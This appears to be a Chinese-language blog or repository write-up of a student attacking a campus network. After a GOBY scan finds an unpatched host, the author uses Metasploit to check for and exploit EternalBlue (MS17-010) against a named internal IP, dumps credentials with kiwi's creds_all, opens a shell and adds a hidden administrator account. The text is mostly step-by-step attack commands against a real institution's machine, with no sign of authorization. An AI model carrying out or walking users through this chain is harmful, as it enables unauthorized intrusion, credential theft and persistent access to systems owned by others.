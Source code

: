 # 校园网初步尝试

# 渗透的过程

## 通用`POC`扫描

![](../assets/1.png)

我这里使用的是`GOBY`来进行的扫描，学校果然够懒，包含一个永恒之蓝的漏洞（2017年前的电脑没打补丁就会有）

## 验证永恒之蓝

我在Windows上装了个`metasploit-framework`，然后启动`msfconsole`

![](../assets/2.png)

检索一下永恒之蓝

```
search _010
```
![](../assets/292630115-35b2d370-65ec-4ee1-9f93-cd1fa1315e7c.PNG)


`auxilliary`是辅助模块专门用来验证的

`exploit`是重现模块，如果成功可以直接拿到目标机最高权限

我先尝试使用第三个进行验证

```
use 3
```
![](../assets/292630132-a2ed82b8-8d44-461a-9b36-7cb9187a7862.PNG)


然后查看需要配置的参数

```
show options
```


看到那个`required` `yes`部分还有一个`rhosts`需要填写

补全需要的信息

```
set rhost 10.16.191.10
```

然后`run`


看到那个绿色的`[+]`了吗？他说：存在永恒之蓝漏洞

同时能使用也就是说明那台电脑没有开防火墙

## 复现漏洞

我们使用第一个

```
use 1
```

和刚才一样查看一下需要配置的信息

```
show options
```

同样是需要配置对方主机`ip`

```
set rhost 10.16.191.10
```

然后`run`

## 后续操作

查看用户密码

```
load kiwi
creds_all
```


获取`shell`然后新建用户然后添加管理员

```
shell
net user name password /add
net localgroup administrators name /add
```

